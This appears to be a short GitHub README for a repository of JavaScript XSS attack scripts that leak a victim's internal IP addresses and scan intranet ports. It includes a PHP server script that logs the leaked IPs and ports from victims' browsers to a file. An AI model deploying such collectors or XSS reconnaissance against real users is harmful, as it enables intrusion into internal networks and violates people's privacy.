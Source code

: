 Js_attack - some .jS with xss to attack
===================

Usage example
------------------

Get-Intranet-ip.js & Scan-Intranet-port.js:
you can make a server to hand ip:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");
    $ip = $_GET['ip'];
    $port = $_GET['port'];
    file_put_contents('./webrtc_ip.txt', $ip.' | '.$port.' | '.$time.' | from '.$from."\r\n", FILE_APPEND);
?>
```


Credit
------
Repo is based on the following projects:

- https://github.com/diafygi/webrtc-ips


